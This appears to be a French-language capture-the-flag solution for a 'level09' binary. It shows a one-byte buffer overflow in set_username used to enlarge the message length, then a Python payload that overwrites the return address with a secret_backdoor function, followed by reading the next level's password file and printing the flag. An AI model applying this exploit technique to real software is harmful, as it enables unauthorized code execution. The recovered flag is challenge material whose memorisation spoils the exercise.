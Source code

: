 1. Buffer overflow sur la fct set_username de 1 byte. L'espace memoire se trouvant a user+40 est la longueur du message. On peut donc modifier cette valeur afin de creer un second buffer overflow sur message.

```
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

2. L'offset est de 200 apres l'username.

```
(python -c '''
import struct

addrs = struct.pack("Q", 0x55555555488c)
junk = "\x90" * 200

print "A" * 40 + "\xee" + "\n" + junk + addrs
'''; cat;) | ./level09
```

```
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

> Flag: j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

